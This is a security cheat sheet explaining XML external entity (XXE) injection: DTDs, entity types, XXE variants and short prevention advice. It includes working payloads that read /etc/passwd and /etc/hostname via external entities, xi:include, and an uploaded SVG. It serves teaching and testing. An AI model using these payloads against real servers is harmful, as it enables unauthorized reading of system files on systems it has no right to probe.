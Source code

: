 <!--
 * This file is part of RS Cheat Sheets.
 *
 * RS Cheat Sheets is free software: you can redistribute it and/or modify
 * it under the terms of the GNU General Public License as published by
 * the Free Software Foundation, either version 3 of the License, or
 * (at your option) any later version.
 *
 * RS Cheat Sheets is distributed in the hope that it will be useful,
 * but WITHOUT ANY WARRANTY; without even the implied warranty of
 * MERCHANTABILITY or FITNESS FOR A PARTICULAR PURPOSE.  See the
 * GNU General Public License for more details.
 *
 * You should have received a copy of the GNU General Public License
 * along with RS Cheat Sheets. If not, see <https://www.gnu.org/licenses/>.
 */
-->

[Home](../README.md)

# XML external entity injection(XXE)

XXEs are where an attacker sends a modified XML request to the server which allows the attacker to perform their attacks. Most often these attacks would be SSRFs.

## Terms:
- **Document Type Definitions(DTDs)** are a set of rules which defines the legal elements for XML. DTDs are defined using the `DOCTYPE` element. An XML can only have 1 DTD and it's set at the top.
- **Entities** are ways to define reusable content in XML. These are defined in the DTD.
	- **General entities** are like variables.
	- **Parameter entities** are entities which can take in other entities. These can only be used inside the DTD.
		- Ex: `<!ENTITY % outer "<!ENTITY inner 'John'>">` `%outer;` can be used to call that parameter entity.
	- **Predefined entities** are entities that are already defined and are used to display special characters, `<>"'&` inside XML elements.

| Character | Entity   | Unicode |
|-----------|----------|---------|
| `<`       | `&lt;`   | `&#x3C` |
| `>`       | `&gt;`   | `&#x3E` |
| `&`       | `&amp;`  | `&#x26` |
| `"`       | `&quot;` | `&#x22` |
| `'`       | `&apos;` | `&#x27` |

- **External entities** are entities that are loaded outside of the DTD. These could be other files or URLs.
	- Ex: `<!ENTITY subscribe SYSTEM "file.txt">`
- **External DTDs** are DTDs loaded outside of the main XML document.
	- Ex: `<!DOCTYPE dtd SYSTEM "external.dtd">`
	- If a DTD is loaded in, you can download the DTD and then add your own custom entities.

## XML Ex:

```xml
<?xml version="1.0"?>
<!DOCTYPE Person [
	<!ENTITY name "John">
]>
<Person>
	<Name>&name;</Name>
	<Age>20</Age>
</Person>
```

## Types of XXEs
- **Inband XXE** - Output of the parsed XML is shown
- **Error XXE** - Only get to see the errors from the XML parser
- **Out-of-band(OOB)/Blind XXE** - Don't see any output whatsoever. Have to use an out-of-band request, server sends request to attacker's server, to see the data.

## Basic XXE attack
- Add or edit the DTD to define an external entity which contains the file path.
- Edit a XML element, which shows in the response, to make use of the newly defined external entity.
	- Often times there is a lot of trial and error to know what XML entities effect the output.
Request before the attack
```xml
<?xml version="1.0" encoding="UTF-8"?>
<stockCheck><productId>381</productId></stockCheck>
```

Request after the attack
```xml
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE foo [
	<!ENTITY xxe SYSTEM "file:///etc/passwd">
]>
<stockCheck><productId>&xxe;</productId></stockCheck>
```

## Server parses using XML
- **xi:include** allows parts of another XML document to be included in another XML document.
	- The `xmlns:xi="http://www.w3.org/2001/XInclude"` attribute has to be set in one of the ancestor elements to allow for xi:include
	- `<xi:include href="path/to/another.xml"/>` or as an attack `<xi:include parse="text" href="file:///etc/passwd"/>`
	- Sometimes the server takes in user input and puts it in XML to parse. You can do an xi:include attack to do a SSRF
		- `<foo xmlns:xi="http://www.w3.org/2001/XInclude"><xi:include parse="text" href="file:///etc/passwd"/></foo>`

## Using file inputs
- Some websites allow you to upload XML like documents like DOCX, SVG, etc.
	- Even if they only want PNG or JPEG, the library which processes the image might accept SVGs
	- The output will be displayed in the image.

```xml
<?xml version="1.0" standalone="yes"?>
	<!DOCTYPE test [ <!ENTITY xxe SYSTEM "file:///etc/hostname" > ]>
	<svg width="128px" height="128px" xmlns="http://www.w3.org/2000/svg">
		<text font-size="16" x="0" y="16">&xxe;</text>
	</svg>
```

## Prevent XXE vulnerabilities
Configure you XML parser to prevent features you aren't using.
- Disable external entities/SYSTEM
- Disable support for xi:include
